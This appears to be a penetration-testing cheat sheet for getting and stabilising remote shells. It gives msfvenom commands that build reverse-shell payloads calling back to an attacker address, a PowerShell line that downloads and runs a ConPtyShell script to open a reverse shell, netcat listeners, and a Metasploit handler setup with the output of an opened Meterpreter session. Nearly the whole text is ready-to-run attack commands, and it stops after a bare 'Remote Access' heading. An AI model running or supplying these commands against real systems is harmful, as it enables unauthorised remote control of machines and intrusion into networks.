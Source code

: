 ```jsx
//reverse shell
https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f aspx > shell_443.aspx
```

Writable Path

```jsx
C:/Users/Public
C:/Windows/Temp
/dev/shm
/tmp

windows: C:\ => mkdir tmp
```

### TTY shell

```jsx
python3 -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn(["/bin/bash", "--rcfile", "/etc/bash.bashrc"])'
ctrl+Z and stty raw -echo ; fg

IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.2 3001
stty raw -echo; (stty size; cat) | nc -lvnp 3001
```

### Meterpreter shell

```jsx
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=443  EXITFUNC=thread  -f python

//start meterperter
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.1
set LPORT 443
run

[*] Started reverse TCP handler on 192.168.1.1:443 
[*] Sending stage (176198 bytes) to 192.168.243.40
[*] Meterpreter session 3 opened (192.168.1.1:443 -> 192.168.243.40:49159) at 2024-06-22 21:22:14 -0400

meterpreter > shell
```

### Remote Access

remote desktop / rdp
